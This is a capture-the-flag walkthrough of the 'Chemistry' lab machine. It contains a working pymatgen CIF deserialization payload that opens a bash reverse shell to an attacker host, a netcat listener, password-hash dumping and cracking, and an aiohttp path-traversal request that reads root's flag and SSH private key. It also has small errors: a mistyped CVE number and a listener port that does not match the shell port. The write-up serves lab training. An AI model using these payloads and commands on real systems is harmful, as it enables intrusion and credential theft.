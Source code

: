 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC Default Scripts
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
From here we can see the user flag on the user Rosa account. Unofrtunately, we do not have access to view/read the file.

![webShell](Images/webShell.png)


## User Flag

From here we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```
![appPy](Images/appPy.png)

We can read the database.db file using sqlite command. From this we can see multiple users and their password hashes. We are intested in Rosa and her password hash.
```
$ ls
app.py
instance
static
templates
uploads
$ cd instance
$ ls
database.db
$ sqlite3 database.db .dump
```
![databaseDb1](Images/databaseDb1.png)

![databaseDb2](Images/databaseDb2.png)

We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net, which will check and see if they have the password for the provided password hash.

![crackStation](Images/crackStation.png)

Now we have the password for the rosa user account. We know from the nmap scan that SSH port 22 is open on the box.
We can try and access the box via SSH with the rosa account.
```
ssh rosa@<target IP>

cat user.txt
```
The login was successful. We can now read the user.txt file and obtain the user flag.

![rosaSSH](Images/rosaSSH.png)


## Root Flag

We can check locally running network services using the below command. This shows us that we have a service (likely a web server) running on 8080 (localhost).

```
ss -lntp
curl localhost:8080
```

![localhost](Images/localhost.png)

Now, we will change to a local shell on our attacking machine and run the below command to forward the service running on port 8080 on the chemistry box to our attacking machine on port 4000.

```
ssh -L 4000:localhost:8080 rosa@chemistry.htb

```
![portForward](Images/portForward.png)

Next, we can check details on the server and technology it is using. 

```
whatweb localhost:4000
```
![whatWeb](Images/whatWeb.png)

We see that it is using aiohttp/3.9.1. Checking for vulnerabilites on this and we can find an exploit for CVE-2024–23334. 
Reading the vulnerability we can see that a curl command like below can exploit the path traversal vulnerability.
Again, these commands are run on the local attacking machine.

```
curl -s --path-as-is "http://localhost:4000/assets/../../../root/root.txt"
```
![rootTxt](Images/rootTxt.png)

This could also be used to gain root access by reading SSH private key for root.
```
curl -s --path-as-is "http://localhost:4000/assets/../../../../root/.ssh/id_rsa" > root.pem
chmod 600 root.pem
ssh -i root.pem root@chemistry.htb
```
![rootKey](Images/rootKey.png)

As we are logging in as root, we can simply cat root.txt to obtain the flag.

![rootLog](Images/rootLog.png)


Congratulations Chemistry has been successfully Pwned!

![pwned](Images/pwned.png)

